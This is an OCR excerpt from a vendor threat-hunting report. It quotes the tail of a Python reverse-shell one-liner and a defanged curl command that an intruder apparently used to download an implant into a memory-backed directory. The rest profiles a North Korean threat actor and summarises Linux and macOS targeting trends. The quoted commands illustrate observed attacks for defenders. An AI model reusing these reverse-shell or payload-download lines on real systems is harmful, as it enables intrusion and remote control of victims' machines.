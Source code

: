 dup2 (s.fileno(),f)for f in(0,1,2\)]; pty.
spawn("sh")
The adversary also used curl during the intrusion to 
ingress the Silver implant.
curl hxxp:\[REDACTED ExternalIPAddress]
\[REDACTED FileName] \-o devshm\[REDACTED 
FileName] \-a
NOWHERE TO HIDE
CROWDSTRIKE 2023 THREAT HUNTING REPORT
38
 2023 CrowdStrike, Inc. All rights reserved. 
NOWHERE TO HIDE
CROWDSTRIKE 2023 THREAT HUNTING REPORT
Cross\-Platform Proficiency
Takes Center Stage 
Todays organizations rely on multiple operating systems working in concert for 
IT environments to run efficiently. Falcon OverWatch threat hunters are skilled at 
hunting across all major platforms Windows, Linux and macOS. 
This year, Falcon OverWatch saw adversaries showcase their prowess across all 
of these systems. LABYRINTH CHOLLIMA led the charge, highlighting their ability 
to operate across Windows and macOS in their targeting of the 3CX supply chain. 
Notorious for targeting financial technology and cryptocurrency organizations, 
LABYRINTH CHOLLIMA was observed updating both their custom tooling and 
their tradecraft to work specifically on Linux and macOS. 
Threat Actor Spotlight: LABYRINTH CHOLLIMA
LABYRINTH CHOLLIMA is one of the most prolific Democratic Peoples Republic 
of Korea (DPRK) adversaries tracked by CrowdStrike and has been active since at 
least 2009\. CrowdStrike assesses this adversary is likely affiliated with Bureau 121 
of the DPRKs Reconnaissance General Bureau (RGB) North Koreas preeminent 
intelligence service. 
Their currency generation operations are global in scope, and stolen proceeds 
appear to be a lifeline for the DPRK regime. LABYRINTH CHOLLIMAs operations 
have varied in complexity and exhibit tradecraft ranging from pedestrian to state\-
of\-the\-art, suggesting this group is supported by a large number of operators with 
varying technical aptitude. LABYRINTH CHOLLIMAs campaigns broadly trend 
toward a greater emphasis on operational security and defense evasion tactics, 
with the adversary increasing efforts to evade traditional detection methods and 
hinder third\-party analysis and tracking of its campaigns.
Key Facts and 
Figures at a Glance:
3x increase in adversaries 
replacing Pluggable 
Authentication Modules 
(PAM) with malicious 
modules in Linux, typically for 
the purposes of a backdoor
Technology, 
telecommunications and 
academic are the top 
targeted Linux verticals
Finance, technology and 
services are the top targeted 
macOS verticals
LABYRINTH CHOLLIMA 
has proven they are adept 
at operating in all major 
operating systems
After a first intrusion attempt, 
LABYRINTH CHOLLIMA will 
often attempt to gain access 
to a victim organization again 
within the same year
39
 2023 CrowdStrike, Inc. All rights reserved. 